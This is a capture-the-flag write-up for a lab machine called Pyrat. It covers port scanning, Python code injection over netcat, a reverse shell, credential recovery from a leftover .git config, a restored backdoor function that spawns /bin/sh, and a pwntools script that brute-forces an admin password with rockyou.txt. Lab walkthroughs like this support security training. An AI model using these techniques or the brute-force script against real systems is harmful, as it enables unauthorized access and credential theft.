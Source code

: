 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Let's begin by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.209.122", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 09:23 CET
Nmap scan report for 10.10.209.122
Host is up (0.090s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
")}}

{{text("After visiting the site on port 8000, we encountered the following.")}}

{{image("../../static/images/pyrat/000001.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Initially, I tried using Burp Suite, but it didn't lead anywhere. Then, I used netcat to connect to the address. Since it was stated that <code class='bg-gray-300 rounded-md px-1'>a HTTP response leads to a Python code vulnerability</code>, I immediately attempted to run Python code.")}}

{{console("nc 10.10.209.122 8000", "l
name 'l' is not defined
test
name 'test' is not defined
print(2)
2
")}}

{{text("Since it worked, I used a Python reverse shell from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code> and attempted to get it running.")}}

{{image("../../static/images/pyrat/000002.jpg")}}

{{text("This worked, and now we were the <code class='bg-gray-300 rounded-md px-1'>www-data</code> user.")}}

{{header("Shell as think", "shell-as-think")}}

{{text("While exploring the system, I discovered a <code class='bg-gray-300 rounded-md px-1'>.git</code> directory inside <code class='bg-gray-300 rounded-md px-1'>/opt/dev</code>.")}}

{{text("The challenge description mentioned we should <code class='bg-gray-300 rounded-md px-1'>explore the application's older version</code>, so I decided to investigate further.")}}

{{text("Inside the <code class='bg-gray-300 rounded-md px-1'>.git</code> directory, I came across an old <code class='bg-gray-300 rounded-md px-1'>config</code> file containing user credentials.")}}

{{console("cat config", "[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential 'https://github.com']
        username = think
        password = [REDACTED]")}}

{{text("We switched users to <code class='bg-gray-300 rounded-md px-1'>think</code> and successfully logged in using the newly obtained password.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Next, we navigated to <code class='bg-gray-300 rounded-md px-1'>/opt/dev</code> to check for the older version of the application.")}}

{{console("git status", "On branch master
Changes not staged for commit:
  (use 'git add/rm <file>...' to update what will be committed)
  (use 'git restore <file>...' to discard changes in working directory)
        deleted:    pyrat.py.old

no changes added to commit (use 'git add' and/or 'git commit -a')")}}

{{text("We noticed that <code class='bg-gray-300 rounded-md px-1'>pyrat.py.old</code> had been deleted. Let's attempt to restore that file.")}}

{{image("../../static/images/pyrat/000003.jpg")}}

{{text("Now, we can read the contents of the restored file.")}}

{{console("cat pyrat.py.old", "def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if not approved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn('/bin/sh')")}}

{{text("We can see that if <code class='bg-gray-300 rounded-md px-1'>data == 'shell'</code>, the <code class='bg-gray-300 rounded-md px-1'>shell</code> function is executed, which spawns a shell.")}}

{{text("Let's try connecting to our target again using netcat and input <code class='bg-gray-300 rounded-md px-1'>shell</code>.")}}

{{image("../../static/images/pyrat/000004.jpg")}}

{{text("It works, but unfortunately, we are still the <code class='bg-gray-300 rounded-md px-1'>www-data</code> user.")}}

{{text("It seems that the key is to correctly guess the <code class='bg-gray-300 rounded-md px-1'>some_endpoint</code>.")}}

{{text("To be honest, I didn't feel like writing a script for it, so I started guessing since this is an easy challenge, and I got lucky.")}}

{{image("../../static/images/pyrat/000005.jpg")}}

{{text("We need the admin's password, so I guess that's karma. I wrote a script to guess the password.")}}

{{console("from pwn import *

server = '10.10.88.128'
port_number = 8000
wordlist_path = '/usr/share/wordlists/rockyou.txt'

def create_connection():
    return remote(server, port_number)

def try_login(password_guess):
    session = create_connection()
    session.sendline(b'admin')
    session.recvuntil(b'Password:')
    session.sendline(password_guess.encode())
    feedback = session.recvline(timeout=2)
    feedback = session.recvline(timeout=2)
    if b'Password:' in feedback:
        print(f'Attempt with \'{password_guess}\' failed.')
        session.close()
        return False
    elif b'Welcome' in feedback or b'Success' in feedback:
        print(f'Potential success with \'{password_guess}\'!')
        session.close()
        return True
    else:
        print(f'Unexpected feedback for \'{password_guess}\': {feedback}')
        session.close()
        return False

def brute_force_password():
    with open(wordlist_path, 'r', encoding='latin-1') as wordlist:
        for password in wordlist:
            password = password.strip()
            if try_login(password):
                print(f'Valid password identified: {password}')
                break

if __name__ == '__main__':
    brute_force_password()")}}

{{text("We got the password almost immediately.")}}

{{image("../../static/images/pyrat/000006.jpg")}}

{{text("After logging in as admin, we gained root access. Now, we just need to go to <code class='bg-gray-300 rounded-md px-1'>/root</code> and retrieve our flag.")}}

{{image("../../static/images/pyrat/000007.jpg")}}

{{script()}}  
